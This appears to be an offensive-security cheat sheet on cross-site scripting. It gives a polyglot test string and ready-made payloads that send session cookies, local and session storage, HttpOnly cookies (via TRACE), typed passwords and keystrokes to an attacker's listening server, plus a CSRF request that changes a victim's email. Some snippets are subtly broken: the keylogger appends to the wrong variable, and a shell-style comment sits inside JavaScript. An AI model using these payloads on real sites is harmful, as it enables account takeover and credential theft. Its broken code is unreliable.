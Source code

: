 # XSS

List of exploitable JS functions: [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

List of XSS payloads: [http://www.xss-payloads.com/payloads-list.html?a#category=all](http://www.xss-payloads.com/payloads-list.html?a#category=all)

Polyglot field test

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

## Exploits

### Cookie Stealing

Create an instance of server listening on a public port. After sending the following payload to the target you will see a request to your server containing the session cookies

```
<script>
fetch('<listening server>', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

### Local Storage Stealing

Same as Cookie Stealing but send the content of session or local storage to the listening server. The content of the storage has to be converted to JSON format

```
<script>
fetch('<listening server>', {
method: 'POST',
mode: 'no-cors',
body:JSON.stringify(localStorage)    //or sessionStorage
});
</script>
```

Obtain session from session storage

```
<script>
fetch('<listening server>', {
method: 'POST',
mode: 'no-cors',
body:sessionStorage.getItem('sessionID') 
});
</script>
```

### Cross Trace Scripting

By default cookies with the HTTPOnly attribute set to true are invisible to browser scripts because they are sent only through GET or POST HTTP(S) requests. In order to obtain these cookie we make the user send a TRACE request to the server&#x20;

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.withCredentials = true;
req.open('TRACE','<URL>',true);        #putting \r\nTRACE instead of TRACE might bypass some option filters
req.send();
function handleResponse() {
    fetch('<listening server>', {
            method: 'POST',
            mode: 'no-cors',
            body: this.getAllResponseHeaders()
        });
};
</script>
```

### Password Stealing

Create an instance of server listening on a public port. Send the following payload to create a fake form on the target server. When the victim types the password a request will be sent to your server containing the password

```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('<listening server>',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

### Keylogging

The following script sends the keys pressed by the user to the listening server

```
var keys = "";
document.onkeypress = function(e){
    var get = window.event ? event : e;
    var key = get.keyCode ? get.keyCode : get.charCode;
    key = String.fromCharCode(key);
    key += key;
}

window.setInterval(function(){
    if(keys && keys !== ""){
        var path = encodeURI("<listening server>?keys="+keys);
        new Image().src = path;
        keys = "";
    }
},<log interval ms>);
```

### CSRF

Use the following payload to send a request using AJAX to a page of the application. Can be used for instance to request  password reset for the user

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','<URL>',true);
req.send();
function handleResponse() {
    var target = new XMLHttpRequest();
    target .open('post', '/my-account/change-email', true);
    target .send(<body>)
};
</script>
```
